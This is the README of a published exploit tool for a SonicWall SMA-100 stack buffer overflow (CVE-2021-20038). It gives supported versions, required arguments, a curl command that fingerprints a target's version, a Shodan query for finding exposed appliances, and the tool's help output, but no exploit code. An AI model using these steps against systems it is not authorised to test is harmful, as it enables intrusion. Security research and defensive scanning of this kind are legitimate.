 ## Supported Versions

| Version | Supported | Tested | Tested Target |
| - | - | - | - |
| 10.2.1.2-24sv | Yes | :heavy_check_mark: | SMA 500v ESX |
| 10.2.1.1-19sv | Yes | :heavy_check_mark: | SMA 500v ESX |
| 10.2.1.0-17sv | Yes | :heavy_check_mark: | SMA 500v ESX |

## Usage

At minimum, you'll need to provide:

* rhost: the remote host's IP address
* lhost: the local host's IP address
* version: the version of the target.

Please read the stability notes for addtional context. 

An obvious question, is how to obtain the target's version?  A simple `curl` request to the target will reveal that they use the version number for `css` and `js` versioning.

```
albinolobster@ubuntu:~$ curl --insecure https://10.0.0.7/cgi-bin/welcome
...
<link href='/swl_login.10.2.1.2-24sv.css' type='text/css' rel='stylesheet'>
<link href='/swl_header.10.2.1.2-24sv.css' type='text/css' rel='stylesheet'>
<link href='/sma_content_overrides.10.2.1.2-24sv.css' type='text/css' rel='stylesheet'>
<link href='/sma_login_overrides.10.2.1.2-24sv.css' type='text/css' rel='stylesheet'>
<link href="/notificationbar.10.2.1.2-24sv.css" type="text/css" rel="stylesheet">
<script src="/js/jquery.10.2.1.2-24sv.js" type="text/javascript" charset="utf-8"></script>
```

The Metasploit module for CVE-2021-20039 parses this, but I didn't have it in me to do it for this exploit. Note that if you are scanning your environment for these things, I believe the ["Server: SonicWall SSL-VPN Web Server"](https://www.shodan.io/search?query=%22Server%3A+SonicWALL+SSL-VPN+Web+Server%22) is the most reliable. About 22k in Jan. 2022.

### Help Output
```
albinolobster@ubuntu:~/badblood$ python3 badblood.py --help

▄▄▄▄    ▄▄▄      ▓█████▄     ▄▄▄▄    ██▓     ▒█████   ▒█████  ▓█████▄     
▓█████▄ ▒████▄    ▒██▀ ██▌   ▓█████▄ ▓██▒    ▒██▒  ██▒▒██▒  ██▒▒██▀ ██▌  
▒██▒ ▄██▒██  ▀█▄  ░██   █▌   ▒██▒ ▄██▒██░    ▒██░  ██▒▒██░  ██▒░██   █▌
▒██░█▀  ░██▄▄▄▄██ ░▓█▄   ▌   ▒██░█▀  ▒██░    ▒██   ██░▒██   ██░░▓█▄   ▌ 
░▓█  ▀█▓ ▓█   ▓██▒░▒████▓    ░▓█  ▀█▓░██████▒░ ████▓▒░░ ████▓▒░░▒████▓ 
░▒▓███▀▒ ▒▒   ▓▒█░ ▒▒▓  ▒    ░▒▓███▀▒░ ▒░▓  ░░ ▒░▒░▒░ ░ ▒░▒░▒░  ▒▒▓  ▒ 
▒░▒   ░   ▒   ▒▒ ░ ░ ▒  ▒    ▒░▒   ░ ░ ░ ▒  ░  ░ ▒ ▒░   ░ ▒ ▒░  ░ ▒  ▒  
 ░    ░   ░   ▒    ░ ░  ░     ░    ░   ░ ░   ░ ░ ░ ▒  ░ ░ ░ ▒   ░ ░  ░  
 ░            ░  ░   ░        ░          ░  ░    ░ ░      ░ ░     ░     
      ░            ░               ░                            ░       

usage: badblood.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--rversion RVERSION] [--rhostname RHOSTNAME] [--supported-versions] [--workers WORKERS] [--nocrash] [--enable-stderr] [--addr ADDR]
                   [--top-addr TOP_ADDR]

SonicWall SMA-100 Series Stack-Buffer Overflow Exploit (CVE-2021-20038)

optional arguments:
  -h, --help            show this help message and exit
  --supported-versions  The list of supported SMA-100 versions
```